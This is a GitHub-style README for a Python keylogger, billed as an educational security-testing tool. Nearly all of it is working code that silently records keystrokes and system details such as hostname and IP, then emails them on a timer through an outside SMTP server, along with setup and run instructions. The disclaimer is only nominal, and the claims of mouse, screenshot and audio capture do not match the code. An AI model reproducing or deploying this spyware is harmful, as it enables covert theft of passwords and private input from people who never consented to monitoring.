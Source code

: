 # Keylogger: A Comprehensive Guide to Information Security Testing

This project is designed to test the security of information systems by demonstrating the capabilities of a keylogger. It captures user input, takes screenshots, records audio, and sends this data to a specified email address. 

## Purpose

The primary purpose of this project is to illustrate the potential vulnerabilities of systems and the importance of implementing robust security measures. It serves as a learning tool for understanding how keyloggers work and how to prevent their use.

## Installation

1. **Install Required Packages:**  Ensure you have the necessary libraries. You can install them with the following command:
```bash
   pip install -r requirements.txt
```

## Configuration
1. Create a Mailtrap Account: Sign up for a free Mailtrap account (https://mailtrap.io/). This will provide a secure and disposable email address to receive the captured data.

2. Configure SMTP Credentials:

  - Open the keylogger.py file.
  - Locate the following lines:
```python
  EMAIL_ADDRESS = "YOUR_USERNAME"
  EMAIL_PASSWORD = "YOUR_PASSWORD"
```
  - Replace "YOUR_USERNAME" and "YOUR_PASSWORD" with your Mailtrap username and password respectively.

3. Adjust Reporting Frequency:

  - Find the following line in keylogger.py:
```python
SEND_REPORT_EVERY = 60 # as in seconds
```
  - Change the value of SEND_REPORT_EVERY to specify the interval (in seconds) at which the keylogger will send the collected data. For example, a value of 300 would send reports every 5 minutes.
## Usage
1. Run the Keylogger: Execute the following command in your terminal:
```shell
python3 keylogger.py
```
2. Data Collection: The keylogger will silently capture keyboard input, mouse activity, take screenshots, and record audio. It will then send this data to the email address you specified in the configuration.

3. Data Analysis: Review the collected data in your Mailtrap inbox to gain insights into user actions and system vulnerabilities.

## Key Components of the Keylogger 
1. Import Libraries
```python
import logging
import smtplib
import socket
import threading
import platform
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import keyboard
import os
```
This section imports essential libraries for capturing data, interacting with the system, handling email, and performing other necessary tasks.

2. KeyLogger Class
```python
class Klogger:
    def __init__(self, interval, email, password):
        self.interval = interval
        self.log = ""
        self.email = email
        self.password = password
        self.system_info = self.get_system_info()
        self.start_logger()

    def append_to_log(self, string):
        self.log += string

    def callback(self, event):
        name = event.name
        if len(name) > 1:
            # Not a character, e.g. shift, ctrl, alt, etc.
            # Uppercase with []
            if name == "space":
                name = " "
            elif name == "enter":
                name = "\n"
            elif name == "decimal":
                name = "."
            else:
                name = f"[{name.upper()}]"
        self.append_to_log(name)

    def send_mail(self, email, password, message):
        msg = MIMEMultipart()
        msg['From'] = email
        msg['To'] = email
        msg['Subject'] = 'Logger Report'

        msg.attach(MIMEText(message, 'plain'))

        try:
            server = smtplib.SMTP('smtp.mailtrap.io', 2525)
            server.starttls()
            server.login(email, password)
            server.send_message(msg)
            server.quit()
        except Exception as e:
            print(f"Failed to send email: {e}")

    def report(self):
        self.send_mail(self.email, self.password, self.system_info + self.log)
        self.log = ""
        timer = threading.Timer(self.interval, self.report)
        timer.start()

    def get_system_info(self):
        hostname = socket.gethostname()
        ip_address = socket.gethostbyname(hostname)
        system_info = platform.uname()
        return (f"Hostname: {hostname}\n"
                f"IP Address: {ip_address}\n"
                f"System: {system_info.system}\n"
                f"Node Name: {system_info.node}\n"
                f"Release: {system_info.release}\n"
                f"Version: {system_info.version}\n"
                f"Machine: {system_info.machine}\n"
                f"Processor: {system_info.processor}\n")

    def start_logger(self):
        self.report()
        keyboard.on_release(callback=self.callback)
        keyboard.wait()
```
This class implements the core logic of the keylogger. It handles:

  - Data Collection: Captures keyboard input, mouse events, and system information using the keyboard library.
  - Data Storage: Appends collected data to a log string.
  - Email Sending: Sends a report containing the collected data to the configured email address using the smtplib library.
  - Reporting Mechanism: Sets up a timer to periodically send reports using the threading library.
  - System Information Gathering: Retrieves system details like hostname, IP address, processor, operating system, and machine type using the socket and platform libraries.
  - Microphone Recording: (Not implemented in this example) This functionality can be added using libraries like pyaudio to record audio from the microphone.
  - Screenshot Capture: (Not implemented in this example) This functionality can be added using libraries like pyscreenshot to capture screenshots of the screen.

3. Keylogger Initialization and Execution
```python
if __name__ == "__main__":
    logger = Klogger(SEND_REPORT_EVERY, EMAIL_ADDRESS, EMAIL_PASSWORD)
```
This section creates an instance of the Klogger class, configures it with the specified settings, and starts the data collection and reporting process.

Security Considerations
Important: This keylogger is provided for educational purposes only and should never be used for malicious activities. It's essential to be aware of the ethical implications of using such tools and to comply with all relevant laws and regulations.

**Disclaimer: This keylogger is for educational purposes only. Do not use it for illegal or unauthorized activities. The author is not responsible for any damage or misuse of this code.**

# Conclusion
By using this keylogger, you can gain a better understanding of how data can be intercepted and the importance of security best practices. Remember to use this tool responsibly and ethically.